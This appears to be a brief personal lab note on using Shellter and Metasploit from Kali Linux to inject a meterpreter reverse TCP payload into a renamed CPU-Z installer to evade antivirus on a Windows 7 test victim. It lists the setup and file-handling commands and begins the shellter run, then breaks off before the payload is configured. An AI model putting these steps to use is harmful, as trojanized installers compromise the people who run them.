 #topic Metasploit and Shellter

Using Kali Linux for attacking and Windows 7 as a Victim

---
## 2025-08-17
**Set-up:**  
- Install shellter and wine 32 on Kali Linux.
- Install cupz on Kali Linux so we can add a meterpreter reverse tcp payload in it.

**Managing the downloaded file :** 
```
cd Desktop
mkdir av-bypass
cp /home/kali/Downloads/cpu-z_1.96-en.exe av-bypass
cd av-bypass
ls
mv cpu-z_1.96-en.exe cpuz.exe
ls
```

**Adding the payload:**
```
sudo shellter
A (automatic)
PE target: /home/kali/Desktop/av-bypass/cpuz.exe

```
